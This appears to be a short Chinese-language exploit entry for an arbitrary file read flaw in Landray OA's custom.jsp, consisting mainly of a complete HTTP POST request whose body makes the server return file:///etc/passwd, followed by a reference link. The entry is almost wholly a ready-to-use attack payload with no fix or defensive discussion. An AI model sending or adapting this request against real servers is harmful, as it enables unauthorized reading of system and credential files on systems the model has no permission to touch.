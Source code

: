 # 蓝凌OA custom.jsp 任意文件读取漏洞

漏洞利用

出现漏洞的文件為 custom.jsp, 请求包如下：

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```


ref:https://mp.weixin.qq.com/s/TkUZXKgfEOVqoHKBr3kNdw
